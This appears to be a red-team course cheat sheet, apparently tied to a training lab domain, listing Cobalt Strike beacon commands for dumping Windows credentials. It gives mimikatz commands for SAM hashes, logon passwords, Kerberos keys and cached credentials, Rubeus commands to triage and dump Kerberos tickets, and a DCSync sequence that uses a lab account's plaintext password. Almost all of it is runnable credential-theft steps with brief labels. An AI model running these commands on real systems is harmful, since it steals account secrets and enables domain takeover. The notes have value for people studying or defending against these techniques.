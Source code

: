 > The `!` acts as `token::elevate`

# Security Account Manager SAM - Local account NTLM hashes (SAM) Used for password reuse in Domain

```bash
mimikatz !lsadump::sam
```

---

# NTLM Hashes - Domain account NTLM hashes (View > Credentials) Auto-populated

```bash
mimikatz !sekurlsa::logonpasswords
# or
logonpasswords
```

---

# Kerberos Encryption keys (View > Credentials > Add) Manually populated

```bash
mimikatz !sekurlsa::ekeys
```

---

# Domain Cached Credentials DCC - For cracking only

```bash
mimikatz !lsadump::cache
```

[x] TODO: check how to crack these

---

# Kerberos tickets (Stealthy - no logs) - For cracking only

```bash
# Get tickets
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

# Use LUID to dump the tickets
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt
```

---

# DCSync (requires domain admin credentials)

```bash
# Make a token from interactive beacon
make_token DEV\nlamb F3rrari

# Use the token to dump
dcsync dev.cyberbotic.io DEV\krbtgt
```

---
